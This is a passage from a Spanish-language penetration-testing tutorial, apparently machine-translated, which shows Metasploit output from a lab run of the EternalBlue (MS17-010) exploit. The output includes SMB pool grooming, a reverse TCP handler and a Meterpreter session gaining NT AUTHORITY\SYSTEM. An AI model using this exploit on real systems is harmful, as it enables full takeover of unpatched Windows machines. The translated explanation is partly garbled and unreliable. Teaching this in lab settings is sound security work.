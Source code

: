 Luego, podemos ejecutar el exploit y ver lo que devuelve. Consulte las diferencias en la siguiente salida:

Cargas útiles

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > whoami

[-] Unknown command: whoami.

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

```

El aviso no es una línea de comandos de Windows sino una`Meterpreter`inmediato. El`whoami`El comando, típicamente utilizado para Windows, no funciona aquí. En su lugar, podemos usar el equivalente de Linux de`getuid`. Explorando el`help`El menú nos da más información sobre lo que son capaces de las cargas de meterpreter.
